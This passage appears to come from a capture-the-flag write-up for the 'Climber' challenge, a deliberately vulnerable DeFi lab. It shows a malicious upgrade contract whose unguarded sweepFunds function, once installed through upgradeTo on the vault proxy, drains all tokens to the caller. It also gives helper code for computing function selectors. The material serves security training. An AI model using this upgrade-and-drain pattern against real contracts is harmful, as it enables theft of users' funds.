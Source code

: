 ```cs
    }

    function sweepFunds(address tokenAddress) external {
        require(IERC20(tokenAddress).transfer(msg.sender, IERC20(tokenAddress).balanceOf(address(this))), "Transfer failed");
    }

    function _authorizeUpgrade(address newImplementation) internal override {}
}
```

After deploying this contract, we call `upgradeTo()` on the ClimberVault proxy contract to upgrade to the malicious implementation ClimberUpgrade and then call `sweepFunds()` on the ClimberVault proxy contract, which will be calling the new and replaced `sweepFunds()` function with no modifiers, thereby sending the tokens to the caller.

### Extras

In order to get function selectors, something I didn't quite know how to do in brownie at the time. I coded a GetSelector contract which I also deploy in order to obtain function selectors:

```cs
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GetSelector {
    function getSelector(string calldata _func) external pure returns (bytes4) {
        return bytes4(keccak256(bytes(_func)));
    }
}
```

Then made a lambda function in python which returns the selector in HexBytes:

```python
get_selector = GetSelector.deploy(_fromAttacker)
gs = lambda func: get_selector.getSelector(func)
```

Which I then convert to a hex string with the `.hex()` method:

```python
gs('grantRole(bytes32,address)').hex()
```

